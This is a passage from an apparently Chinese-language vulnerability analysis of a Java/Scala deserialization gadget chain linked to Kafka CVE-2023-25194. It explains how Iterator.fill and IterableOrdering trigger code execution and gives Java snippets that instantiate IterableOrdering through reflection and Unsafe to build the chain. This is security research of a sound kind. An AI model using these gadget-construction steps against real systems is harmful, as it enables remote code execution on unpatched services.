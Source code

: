 当调用 Fill.iterator().next() 时，触发的具体next方法中，执行了elem表达式。

![scala_Iterator.fill](Kafka_CVE-2023-25194/scala_Iterator.fill.png)



### 4.3. comparator

IterableOrdering实现了java.util.Comparator接口，在具体compare方法中我们可以看到，存在 x.iterator().next()的逻辑，hasNext中只要当前索引i小于总元素，hasNext则为true：

![scala_IterableOrdering](Kafka_CVE-2023-25194/scala_IterableOrdering.png)

IterableOrdering没有无参构造函数，代码中为了方便构造该对象，我们可以通过以下方式来实例化它，`newConstructorForSerialization`实际上还受到classloader约束（双亲委派）：

```java
Class<?> clazzOrder = Class.forName("scala.math.Ordering$IterableOrdering");

Constructor<?> ctorOrder = rf.newConstructorForSerialization(
    clazzOrder, StubClassConstructor.class.getDeclaredConstructor()
);
Object iterableOrdering = ctorOrder.newInstance();
```

当然，利用unsafe也是可以的：

```java
Field fieldUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
fieldUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe) fieldUnsafe.get(null);
Object iterableOrdering = unsafe.allocateInstance(clazzOrder);
```
